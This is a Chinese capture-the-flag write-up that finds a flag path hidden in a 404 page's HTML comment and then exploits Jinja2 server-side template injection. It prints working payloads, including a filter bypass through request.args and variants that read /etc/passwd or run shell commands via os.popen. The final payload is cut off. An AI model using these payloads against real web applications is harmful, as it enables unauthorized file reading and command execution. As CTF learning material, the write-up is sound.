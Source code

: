 404界面里面还可以藏东西（第一次见）

打开view-source:http://61.147.171.105:50385/register.php

然后发现是

```html

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /register.php was not found on this server.</p>
<hr>
<address>Apache/2.4.10 (Debian) Server at 61.147.171.105 Port 50385</address>
</body></html>
<!--Flag @ /opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt-->
<!--Salt @ /opt/salt_b420e8cfb8862548e68459ae1d37a1d5.txt-->
	
```

这里暴露了flag的位置（也算是一个hint）

然后就是ssti的那一套（最常用的被禁用了）

payload：

```php
http://61.147.171.105:50385/login.php/{{''[request.args.a][request.args.b][2][request.args.c]()[40]('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')[request.args.d]()}}?a=__class__&b=__mro__&c=__subclasses__&d=read
```

即可获取flag

这里的构造

request有两种形式，`request.args`和`request.values`，当args被过滤时我们可以使用values，且这种方法POST和GET传递的数据都可以被接收，相对于通过`chr()`进行绕过，这种方法更为简单和便捷。

```
{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

构造后为

```
{{().__class__.__bases__[0].__subclasses__().pop(40)(request.args.path).read()}}&path=/etc/passwd

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__[request.args.os].popen(request
```

